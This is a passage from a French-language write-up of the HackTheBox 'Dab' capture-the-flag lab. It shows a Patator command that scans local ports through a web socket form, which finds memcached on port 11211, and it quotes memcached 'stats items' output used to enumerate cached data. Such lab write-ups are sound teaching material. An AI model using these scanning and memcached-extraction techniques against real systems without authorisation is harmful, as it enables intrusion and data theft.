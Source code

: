 On se retrouve alors sur un formulaire permettant d'envoyer des données vers un port local de la machine :  

![HackTheBox Dab CTF socket send form](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/dab/dab_socket.png)

On peut aussi passer une plage numérique à Patator :  

```plain
$ patator http_fuzz url='http://10.10.10.86:8080/socket?port=RANGE0&cmd=hello' header='Cookie: password=secret;' 0=int:0-65535  -x ignore:code=500
10:20:29 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2019-01-13 10:20 CET
10:20:29 patator    INFO -
10:20:29 patator    INFO - code size:clen       time | candidate                          |   num | mesg
10:20:29 patator    INFO - -----------------------------------------------------------------------------
10:20:29 patator    INFO - 200  459:287        0.121 | 0                                  |     1 | HTTP/1.1 200 OK
10:20:29 patator    INFO - 200  801:629        0.172 | 22                                 |    23 | HTTP/1.1 200 OK
10:20:29 patator    INFO - 200  799:627        0.179 | 21                                 |    22 | HTTP/1.1 200 OK
10:20:30 patator    INFO - 200  1183:1010      0.113 | 80                                 |    81 | HTTP/1.1 400 Bad Request
10:22:15 patator    INFO - 200  1183:1010      0.073 | 8080                               |  8081 | HTTP/1.1 400 Bad Request
10:22:54 patator    INFO - 200  748:576        0.074 | 11211                              | 11212 | HTTP/1.1 200 OK
10:35:48 patator    INFO - Hits/Done/Skip/Fail/Size: 6/65536/0/0/65536, Avg: 71 r/s, Time: 0h 15m 19s
```

On a gagné un port intéressant : 11211 qui est [le port par défaut](https://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers) pour [memcached](https://en.wikipedia.org/wiki/Memcached).  

Sur [cet article](http://niiconsulting.com/checkmate/2013/05/memcache-exploit/) ou en lisant le code du module [memcached\_extractor](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/gather/memcached_extractor.rb) de *Metasploit* on peut trouver quelques commandes que l'on peut passer à memcached.  

Ainsi en envoyant *stats items* j'ai le retour suivant :  

```plain
STAT items:16:number 1
STAT items:16:age 1024
STAT items:16:evicted 0
STAT items:16:evicted_nonzero 0
STAT items:16:evicted_time 0
STAT items:16:outofmemory 0
STAT items:16:tailrepairs 0
STAT items:16:reclaimed 0
STAT items:16:expired_unfetched 0
STAT items:16:evicted_unfetched 0
STAT items:16:crawler_reclaimed 0
STAT items:16:crawler_items_checked 0
STAT items:16:lrutail_reflocked 0
STAT items:26:number 1
```